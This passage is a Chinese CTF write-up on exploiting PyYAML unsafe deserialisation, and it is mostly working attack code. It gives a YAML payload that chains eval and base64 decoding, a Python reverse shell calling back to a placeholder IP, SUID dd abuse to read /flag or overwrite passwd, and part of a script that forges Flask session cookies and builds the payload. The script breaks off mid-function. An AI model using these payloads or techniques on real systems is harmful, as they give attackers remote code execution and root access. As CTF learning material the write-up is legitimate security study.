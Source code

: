 https://www.tr0y.wang/2022/06/06/SecMap-unserialize-pyyaml/

大佬没给出实现，自己按大佬博客的思路实现一下：

``` yaml
!!python/object/new:bytes
- !!python/object/new:map
  - !!python/name:eval
  - !!python/object/new:map
    - !!python/name:base64.b64decode
    - ["{BASE64 HERE}"]
```

翻译过来其实就是 `bytes(map(eval, map(base64.b64decode, 'BASE64 HERE')))`。然后 base64 的部分，可以填一个常规的反弹 shell：   
```
exec("import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"YOUR-IP\",PORT)); 
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/sh\",\"-i\"]);")
```

然后把这个 yaml 上传到一个 `/display` 能访问到的位置上（即要提前算好 md5），然后再用 `/display` 摸一下，就能执行了。执行完了之后，就拿到了 shell。

但是翻了一下，发现 `/flag` 好像没权限读。

`find -perm -u=s -type f 2>/dev/null` 遍历有suid权限的程序，发现除了正常的程序外有dd

考虑dd写passwd提到root，但是队里神仙师傅直接用 `dd if=/flag of=copy` 复制了一份 flag，然后就可以读了。

上面 web 部分的脚本如下：

``` python
from itsdangerous import URLSafeTimedSerializer
import base64
import flask
import hashlib
import os
import requests

def dump_cookies(secret_key, data):
    return URLSafeTimedSerializer(
        secret_key,
        salt = 'cookie-session',
        serializer = flask.json.tag.TaggedJSONSerializer(),
        signer_kwargs = dict(key_derivation = "hmac", digest_method = hashlib.sha1),
    ).dumps(data)

def create_rar(target, contents):
    for (file, content) in contents.items():
        with open(file, 'w') as f:
            f.write(content)
        os.system(f'rar a {target} {file}')

def create_session(key):
    data = { 'user': 'Administrator', 'updir': 'fileinfo' }
    return dump_cookies(key, data)

def create_yaml_payload():
    command = f'exec("import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
    s.connect((\\\"YOUR-IP\\\",PORT)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
     os.dup2(s.fileno(),2); p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"]);")'
    command_encode = base64.b64encode(command.encode()).decode()

    return f'''
!!python/object/new:bytes
- !!python/object/new:map
  - !!python/name:eval
  - !!python/object/new:map
```